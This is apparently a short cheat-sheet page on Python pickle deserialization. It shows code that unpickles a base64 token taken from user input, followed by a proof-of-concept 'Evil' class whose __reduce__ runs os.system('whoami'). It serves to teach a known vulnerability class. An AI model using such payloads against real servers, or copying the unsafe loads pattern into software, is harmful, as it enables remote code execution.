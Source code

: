# Python Deserialization

## Pickle

The following code is a simple example of using cPickle in order to generate an auth_token which is a serialized User object.

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input.

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

```python
import cPickle
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

## References

[```https://blog.nelhage.com/2011/03/exploiting-pickle/```](https://blog.nelhage.com/2011/03/exploiting-pickle/)
[```http://xhyumiracle.com/python-pickle-injection/```](http://xhyumiracle.com/python-pickle-injection/)
[```https://www.mandiant.com/resources/hunting-deserialization-exploits```](https://www.mandiant.com/resources/hunting-deserialization-exploits)
[```https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html```](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

